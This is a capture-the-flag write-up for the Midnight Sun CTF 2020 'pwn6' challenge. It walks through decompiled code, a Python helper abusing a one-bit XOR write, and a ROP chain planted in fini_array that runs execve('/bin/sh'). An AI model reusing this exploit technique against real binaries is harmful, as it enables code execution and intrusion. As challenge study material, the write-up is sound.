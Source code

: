 
## pwn6 (135pt)
### Description

> An homage to pwny.racing, we present... speedrun pwn challenges.
> These bite-sized challenges should serve as a nice warm-up for your pwning skills.


### Attachment

[pwn6](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/MidnightsunCTF2020/pwn/pwn6/pwn6)

### Analysis

an warming up task of  `fini_array` attack. 64-bit ELF, statically linked and no PIE.

#### Overview

`main` function:

```c
__int64 sub_400C22(){
  sub_4107D0(off_6D57A8, 0LL, 2LL, 0LL); // setvbuf 
  sub_4107D0(off_6D57A0, 0LL, 2LL, 0LL); // setvbuf
  sub_449280(60LL);  // alarm
  sub_400B6D();  // banner
  sub_400B7E();  // write-what-where
  return 0LL;
}
```

part of `sub_400B7E` function:

```c
while ( dword_6D7330 <= 0 ){
    sub_40F780((unsigned __int64)"\x1B[1maddr:\x1B[m ");
    a2 = "%p:%u";
    a1 = off_6D57A8;
    sub_40F900((__int64)off_6D57A8, (__int64)"%p:%u", &v7, &v6); // scanf
    if ( v6 > 7 )
        break;
    *v7 ^= 1LL << v6;  // modify one byte 
    ++dword_6D7330;
}
```

In `sub_400B7E` we can modify one byte of target address by XOR :`*v7 ^= 1LL << v6;`.

But in this function, only one time can we modify, so we need to modify `dword_6D7330`(the variable that control the loop) firstly. 

We can modify one byte to any value by xor for many times, here is the helper function:

```python
def modify(addr,data):
    for i in range(8*8):
        if data&(1<<i):
            payload = "%s:%d"%(hex(addr+i/8),i%8)
            sla('\x1B[1maddr:\x1B[m ',payload)
```

### Solution

#### infinite loop 

modify `0x6D7330` with `0x80000000`, then `dword_6D7330` will become a negative number:

```python
modify(0x6D7330,0x80000000)
```

#### modify fini array

function in `fini_array` would be executed after main, so we can modify them to hijack rip.

```python
# gadget
prdi = 0x004006a6 # pop rdi ; ret
prsi = 0x00410433
prdx = 0x00449af5
prax = 0x0045fdf4
syscall = 0x00449285
leave = 0x00400c20

# elf, libc
fini_array = 0x6d2150
raw = [0x0000000000400b00,   # 0 -> leave 
       0x0000000000400590,   # 1 -- nop
       0x0000000d00000002,   # 2 -> prdi
       0x00000000004ada80,   # 3 -> 0x6d21a8 -> /bin/sh
       0x00000000004ada60,   # 4 -> prsi
       0x0000000000000000,   # 5 -- 0 
       0x00000000006d44c0,   # 6 -> prdx
       0x0000000000000001,   # 7 -> 0
       0x00000000006d4440,   # 8 -> prax
       0x0000000000000001,   # 9 -> 0x3b
       0x00000000004b2680,   # 10-> syscall
       0x00000000004b25a0,   # 11-> /bin/sh
       ]

ropchain = [leave,
            0x0000000000400590,
            prdi,
            0x6d21a8, 
            prsi,
            0,
            prdx,
            0,
            prax,
            0x3b,
            syscall,
            u64('/bin/sh\0')]

for i in range(len(ropchain)):
    modify(fini_array+8*i,raw[i]^ropchain[i])
```

finally,  `SYS_execve('/bin/sh',0,0)` was executed

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/MidnightsunCTF2020/pwn/pwn1) 

see more about `fini_array` attack: [ROP-with-fini-array](http://taqini.space/2020/02/14/play-ROP-with-fini-array/)